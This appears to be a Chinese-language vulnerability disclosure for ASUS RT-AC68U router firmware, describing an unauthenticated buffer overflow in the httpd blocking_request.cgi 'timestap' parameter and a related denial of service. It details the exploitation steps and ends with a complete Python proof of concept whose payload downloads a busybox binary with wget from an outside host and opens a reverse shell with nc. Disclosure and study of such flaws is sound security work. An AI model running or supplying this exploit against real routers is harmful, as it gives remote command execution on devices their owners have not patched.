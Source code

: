 # 前言
我在AC68U RT-AC68U_3.0.0.4_384_45713-g0f2983e.trx固件版本中发现了2个漏洞。
- 漏洞①：blocking_request.cgi  高危:未授权任意命令执行
在httpd二进制文件中，攻击者可在未登陆验证的情况下发送特定的数据包成功利用此问题，可通过控制timestap参数进行缓冲区溢出达到任意命令执行效果

- 漏洞②：blocking.cgi  低危:授权拒绝服务
 原理同漏洞①但是经测试，无法达到任意命令执行效果，但是攻击后会将设备打崩且无法通过reset重启，需要通过救援模式刷固件
 </br>
在httpd二进制文件中，攻击者可在登陆验证的情况下发送特定的数据包成功利用此问题，可通过控制CName | Interval | timestap任一参数进行缓冲区溢出达到拒绝服务效果

# 漏洞类型
缓冲区溢出

# 漏洞描述
在web服务对应二进制文件httpd中，攻击者可在未登陆验证的情况下，通过控制timestap参数进行缓冲区溢出触发漏洞达到远程任意命令执行的效果

# 影响范围
AC68U FirmwareVersion < 3.0.0.4.385.20633 
</br>
RT-AC5300 FirmwareVersion <3.0.0.4.384.82072
</br>
. . . . . .
</br>
此漏洞影响多个路由器型号，具体型号暂未统计，官方2020年8-9月份修复的RCE漏洞（如下图）似乎就是这个
</br>
![image](https://user-images.githubusercontent.com/45091804/146535975-97051c7f-a65e-465a-8ed6-bc15ae5f6e6c.png)

# 漏洞触发流程
**本次数据基于固件版本AC68U 3.0.0.4.384.45713**
</br>
CName、mac、interval、timestap参数内容均为可控
</br>
### 流程1. 构造timestap、mac参数满足条件通过判断条件
 ①系统时间+3600-atol(timestap参数)<20 （timestap参数:通过一次空包返回内容来计算时间戳（注意需要根据设备系统设置时区计算）
 ![image](https://user-images.githubusercontent.com/45091804/146538461-c4dcb76e-d911-42c3-8c2d-ba7e1309f06f.png)
 </br>
 ②sub_11840函数为nvram_get，初始MULTIFILTER_MAC值为空，str("",mac)，所以mac必须为空
  </br>
  
 ![image](https://user-images.githubusercontent.com/45091804/146538587-02d5ce10-1572-4c4b-b148-9dbfcf84840d.png)

### 流程2. 绕过atol函构造timestap参数
atol(1639469133aaaaaaa.....)返回内容为1639469133,所以只需要在计算好的时间戳后面填充即可，通过strcat函数触发漏洞
![image](https://user-images.githubusercontent.com/45091804/146538789-fe6e5a14-2b47-4c13-8bf5-a202dbe2f7ed.png)

# 漏洞利用
1. timestap参数第一次尝试填充4740 * a,查看栈中数据，还有40个字节需要填充，也就是时间戳 + 4880* a + p32(addr)
![image](https://user-images.githubusercontent.com/45091804/146540066-b3f23900-0969-4edd-9deb-8dc8632abae9.png)

2. 调试中发现会提前崩溃，逐步跟踪，发现崩溃点位于json_object_put函数，此函数参数会从栈上取数据（原数据值为0），而栈被覆盖了后取的数据导致提前崩溃
![image](https://user-images.githubusercontent.com/45091804/146541130-4c897ae3-6172-48d9-a902-0534d2f83480.png)

3. libjson-c.so.2.0.2查看json_object_put函数原型，a1就是栈上取的参数，也就是只有当满足条件a1=0 或 *(a1+12)-- != 1 才能保持正常返回。由于是strcat函数导致溢出，栈中数据出现00会截断。注意下图左边汇编代码，LDR是取内容，--后比较完后会通过STR指令将内容写回原地址，所以在覆盖返回地址前，理论上构造参数：时间戳 + 4840* a +p32(addr) +32*a +p32(addrToSystem) addr必须满足条件：可读、可写、无00
![image](https://user-images.githubusercontent.com/45091804/146541761-919669df-f73b-4917-8484-256c3f8ca10c.png)
4. 寻找合适地址
- 查看区段信息，未发现所需地址
- 查看lib库，开启了PIE，无法利用 （碰撞libc地址，因为概率太低不进行尝试了）
![image](https://user-images.githubusercontent.com/45091804/146541939-f0c53a5c-232e-4d2a-ae04-8dfb25d81d58.png)
5. 然而json_object_put函数内部有个函数指针调用，而a1的值是可控的，也就是不用覆盖到返回地址也可以劫持PC
![image](https://user-images.githubusercontent.com/45091804/146554377-df982dfb-d21a-4a3b-a0a6-f9ac650e5244.png)

6. 观察bss段数据 发现CName、mac、interval、timestap内容都存在bss段，且bss段可读可写。
构造结构如下图，且运行到json_object_put函数内，准备跳转前，发现R10的内容保存的是CName参数内容。
<sup> 


  
  
     #cmd：需要执行的命令
     #timeStapStr：计算好的时间戳
     #addr：interval参数内容首地址，需要根据cmd命令的长度进行调整
    'CName': cmd，
    'mac': '',
    'interval': 'a'*12+p32(1)+'a'*16+p32(0x0000EFA8),
    'timestap': timeStapStr +'a'*4740+p32(addr) 



</sup>

![image](https://user-images.githubusercontent.com/45091804/146554630-170a7eb3-5f7b-437b-8e44-6ad19c19f2cb.png)

# 漏洞演示
  [![Watch the video](https://raw.github.com/GabLeRoux/WebMole/master/ressources/WebMole_Youtube_Video.png)](https://youtu.be/9rpNKSVQtFM)
  
# POC 
POC需要根据不同版本调整
</br>
以下是争对3.0.0.4.384.45713固件版本的POC
<sup> 


  
    
    #coding=utf-8
    from pwn import *
    import re
    import time
    import requests
    import urlparse
    import urllib3
    urllib3.disable_warnings()
    import sys

    def rematch(strTmp):
        tm_year = strTmp[0][2]
        tm_month = strTmp[0][1]
        tm_day = strTmp[0][0]
        tm_hour = strTmp[0][3]
        tm_min = strTmp[0][4]
        tm_sec = strTmp[0][5]
        if tm_month == 'Jan':
            tm_month = '01'
        if tm_month == 'Feb':
            tm_month = '02'
        if tm_month == 'Mar':
            tm_month = '03'
        if tm_month == 'Apr ':
            tm_month = '04'
        if tm_month == 'May':
            tm_month = '05'
        if tm_month == 'Jun':
            tm_month = '06'
        if tm_month == 'Jul':
            tm_month = '07'
        if tm_month == 'Aug':
            tm_month = '08'
        if tm_month == 'Sept':
            tm_month = '09'
        if tm_month == 'Oct':
            tm_month = '10'
        if tm_month == 'Nov':
            tm_month = '11'
        if tm_month == 'Dec':
            tm_month = '12'
        tm_hour = int(tm_hour) + 8
        time_tmp = '{}-{}-{} {}:{}:{}'.format(tm_year, tm_month, tm_day, tm_hour, tm_min, tm_sec)
        print(time_tmp)
        ts = time.strptime(time_tmp, "%Y-%m-%d %H:%M:%S")
        timeStamp= int(time.mktime(ts))
        return timeStamp


    def getTime(url):
        scheme =  urlparse.urlparse(url).scheme
        hostname = urlparse.urlparse(url).hostname
        header={
            'Host': hostname,
            'Cache-Control': 'max-age=0',
            'Upgrade-Insecure-Requests': '1',
            'Origin': scheme+'://'+hostname,
            'Content-Type': 'application/x-www-form-urlencoded',
            'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.85 Safari/537.36',
            'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
            'Referer': scheme+'://'+hostname,
            'Accept-Encoding': 'gzip, deflate',
            'Accept-Language': 'zh-CN,zh;q=0.9',
            'Connection':'close'
        }
        data1 ={
            'CName': '',
            'mac': '',
            'interval': '',
            'timestap': '',
        }
        url = url+'/blocking_request.cgi'
        ret = requests.post(url = url ,
                      headers = header,
                      data = data1,
                      verify=False)
        format_time =''
        for key, value in (ret.headers).items():
            if 'Date' in key:
                format_time = value
        tmp = re.findall(r', (.*?) (.*?) (.*?) (.*?):(.*?):(.*?) GMT',format_time)
        timeStap = rematch(tmp) + 3600
        timeStapStr = str(timeStap)
        print(timeStapStr)
        data2 ={
            'CName': 'cd /tmp/home/root;wget http://192.168.2.177:8080/busybox-armv6l;chmod 777 *;./busybox-armv6l nc 192.168.2.177:1234 -e /bin/ash',
            'mac': '',
            'interval': 'a'*12+p32(1)+'a'*16+p32(0x0000EFA8),   
            'timestap': timeStapStr +'a'*4740+p32(0x0006FE35),   #p32(addr) 此addr为interval参数内容首地址

        }
        ret = requests.post(url = url ,
                      headers = header,
                      data = data2,
                      verify=False,)
        print('End')


    if __name__ == '__main__':
        url = sys.argv[1]
        getTime(url)



</sup>
